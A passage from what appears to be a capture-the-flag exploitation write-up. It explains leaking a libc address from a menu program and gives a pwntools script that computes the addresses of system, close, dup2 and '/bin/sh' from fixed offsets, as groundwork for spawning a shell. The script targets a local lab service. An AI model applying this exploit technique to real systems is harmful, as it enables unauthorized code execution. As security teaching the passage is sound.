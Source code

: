 Now keep in mind, since we set the breakpoing at `write`, each time the program tries to print something it will hit a breakpoint, so we will have to go into gdb and continue it each time it breaks. However on the client side you should end up with this:

```
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffff7878190
```

So we now have all of the addresses we need. Let's calculate the differences and write the code which will calculate all of the addresses for us.

python math:
```
>>> hex(0x7ffff78516a0 - 0x7ffff787c420)
'-0x2ad80'
>>> hex(0x7ffff7904f10 - 0x7ffff787c420)
'0x88af0'
>>> hex(0x7ffff7904f70 - 0x7ffff787c420)
'0x88b50'
>>> hex(0x7ffff7996c40 - 0x7ffff787c420)
'0x11a820'
```

python code:
```
#Import pwntools
from pwn import *

#Designate the libc elf and the remote connection
#elf = ELF("./tutorial")
libc = ELF("./libc-2.19.so")
target = remote('127.0.0.1', 55555)

#Choose the first option
print target.recvuntil('>')
target.sendline("1")

#Grab the input and parse out the address
leak = target.recvline().strip()
leak = int(leak.replace("Reference:", ""), 16)
print "leak: " + hex(leak)

#Calculate the other addresses from the leaked address
sys_adr = leak - 0x2ad80
clo_adr = leak + 0x88af0
dup_adr = leak + 0x88b50
bsh_adr = leak + 0x11a820

#Print the calculated addresses
print "sys: " + hex(sys_adr)
print "clo: " + hex(clo_adr)
print "dup: " + hex(dup_adr)
print "bsh: " + hex(bsh_adr)
```
